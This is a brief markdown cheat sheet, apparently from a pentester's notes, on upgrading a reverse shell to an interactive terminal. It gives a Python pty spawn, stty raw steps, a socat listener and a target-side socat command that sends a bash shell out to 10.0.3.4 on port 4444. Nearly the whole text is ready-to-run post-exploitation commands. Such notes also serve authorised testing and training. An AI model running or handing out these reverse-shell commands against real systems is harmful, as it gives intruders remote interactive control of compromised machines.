 
# Interactive shell
## stty
#### target's reverse shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

#### host's shell

```
stty raw -echo
fg
```

## socat  
#### listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### target :

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
